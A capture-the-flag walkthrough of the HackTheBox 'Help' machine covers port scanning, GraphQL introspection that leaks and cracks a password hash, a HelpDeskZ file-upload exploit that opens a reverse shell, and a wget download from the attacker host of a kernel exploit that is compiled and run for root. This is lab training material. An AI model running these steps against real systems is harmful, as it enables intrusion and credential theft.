









# HackTheBox
------------------------------------
### IP: 10.129.229.139
### Name: Help
### Difficulty: Easy
--------------------------------------------



I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.156.213
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-15 08:06 CDT
Nmap scan report for 10.129.156.213
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5bb4d9cdeaf6bbfba8c227ad8d74328 (RSA)
|   256 d5b010507486a39fc5536f3b4a246119 (ECDSA)
|_  256 e21b88d37621d41e38154a8111b79907 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

Lets add help.htb to `/etc/hosts`

Looking at port 80 we find a default apache landing page:



And on port 3000 we find:



Running gobuster against port 80 we find the `/support` endpoint:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ gobuster dir -u http://help.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -o 80_dirs.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/07/15 09:15:00 Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
```

Which is running HelpDeskZ:



But we don't have any credentials to login with.

Turning back to port 3000 which specifically mentions credentials, we can run `curl -i` against it to see it is running express:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl -i http://help.htb:3000
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 81
ETag: W/"51-gr8XZ5dnsfHNaB2KgX/Gxm9yVZU"
Date: Mon, 15 Jul 2024 14:18:00 GMT
Connection: keep-alive

{"message":"Hi Shiv, To get access please find the credentials with given query"} 
```

We see that if we attempt to access other endpoints we get a message saying we cant `GET` the resource, but if we hit `/graphql` the response changes:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/random  
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /random</pre>
</body>
</html>
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/graphql
GET query missing.
```

Lets take a look at the schema types:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   329  100   283  100    46   1868    303 --:--:-- --:--:-- --:--:--  2178
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "User"
<SNIP>
```

Then we can view the fields of User:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }'| jq      
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   152  100    86  100    66    551    423 --:--:-- --:--:-- --:--:--   980
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
    }
  }
}
```

We can then view these with:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }'| jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   141  100    96  100    45    645    302 --:--:-- --:--:-- --:--:--   952
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

Interestingly `User` with a capital C failed, but `user` did not:

```
"message": "Cannot query field \"User\" on type \"Query\". Did you mean \"user\"?",
```
We can then paste this hash into crackstation to crack it:



`helpme@helme.com:godhelpmeplz`

Trying to use these credentials to login to the helpdeskz site we get this error:



Weird. But if I click the "Remember Me" button I am able to login fine.

### Exploitation


Looking for exploits I find: https://gist.github.com/z9fr/d2b0c8cea39096e19f336f5e29bbf803

Which exploits an arbitrary file upload vulnerability in HelpDeskZ.

We can launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ python helpdeskz_exploit.py http://help.htb/ php-reverse-shell.php
http://help.htb/support/uploads/tickets/c81018c329326d3ef571c2fb1eb3fd2d.php
http://help.htb/support/uploads/tickets/89199ee1bcd58aec9f187a930615a9b5.php
http://help.htb/support/uploads/tickets/e768b7a07979d4ca6bce99c59c44eb1a.php
http://help.htb/support/uploads/tickets/49d78d219f092fd13dc9328e2d57c414.php
<SNIP>
```

Once a file match is found we catch a shell back in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.129.156.213] 60292
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 07:54:02 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
help
$ hostname
help
```

We can now grab the user.txt flag:



### Privilege Escalation

Loading LinPEAS onto the target we can see the kernel is outdated and likely vulnerable to several kernel exploits:



Interestingly dirtycow did not work here. 

```
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits against this specific kernel version I find: https://www.exploit-db.com/exploits/44298

We can transfer this over to the target, compile it and drop into a root shell:

```
help@help:/tmp$ wget 10.10.14.94/4.4.0-116_kernel_exploit.c
--2024-07-15 08:31:29--  http://10.10.14.94/4.4.0-116_kernel_exploit.c
Connecting to 10.10.14.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5788 (5.7K) [text/x-csrc]
Saving to: '4.4.0-116_kernel_exploit.c'

4.4.0-116_kernel_ex 100%[===================>]   5.65K  --.-KB/s    in 0s      

2024-07-15 08:31:29 (12.8 MB/s) - '4.4.0-116_kernel_exploit.c' saved [5788/5788]

help@help:/tmp$ gcc 4.4.0-116_kernel_exploit.c -o exploit
help@help:/tmp$ chmod +x exploit
help@help:/tmp$ ./exploit
task_struct = ffff88001cd8e200
uidptr = ffff88003da74904
spawning root shell
root@help:/tmp# whoami
root
```

We can now grab the final flag:



Thanks for following along!

-Ryan

------------------------------
